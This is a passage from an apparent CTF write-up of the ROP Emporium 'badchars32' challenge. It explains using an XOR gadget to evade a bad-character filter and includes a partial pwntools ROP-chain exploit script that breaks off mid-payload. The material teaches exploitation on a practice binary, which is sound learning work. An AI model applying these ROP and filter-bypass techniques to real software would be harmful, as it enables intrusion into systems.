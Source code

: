 ![pwnme](/assets/images/rop_emp/badchars32/checkbadchar.png)

We can use the previous script, and add in more gadgets that can circumvent this check. The gadget chosen was `0x08048547 : xor byte ptr [ebp], bl ; ret`. This gadget is responsible for performing a single byte xor. Thus we can send a partial `flag.txt`, and xor the corresponding byte. Thus this circumvents the constraint, allowing us to write `flag.txt` into memory and calling `print_file()` with this argument. We will write to the same location (`.bss section 0x0804A030`). 

```python
#!/usr/bin/env python3

from pwn import *

OFFSET = 44
BADCHARS = b'\x78\x67\x61\x2e'

def main():
    elf = ELF('badchars32')
    libc = ELF('libbadchars32.so')
    p = process('./badchars32')
    
    print_file = elf.symbols['print_file']
    pop_esi_edi_ebp = p32(0x080485b9)     # 0x080485b9 : pop esi ; pop edi ; pop ebp ; ret
    mov_edi_esi = p32(0x0804854f)         # 0x0804854f : mov dword ptr [edi], esi ; ret
    xor_ebp_bl = p32(0x08048547)          # 0x08048547 : xor byte ptr [ebp], bl ; ret
    pop_ebx = p32(0x804839D)              # 0x0804839D : pop ebx ; ret
    pop_ebp = p32(0x080485bb)             # 0x080485bb : pop ebp ; ret
    xor_key = 0x2B                        # "+"
    
    write_location = 0x0804A030
    
    payload = b"A" * 44
    payload += pop_esi_edi_ebp
    payload += b"fl\x4a\x4c"
    payload += p32(write_location)
    payload += p32(write_location+2)
    
    payload += mov_edi_esi
```
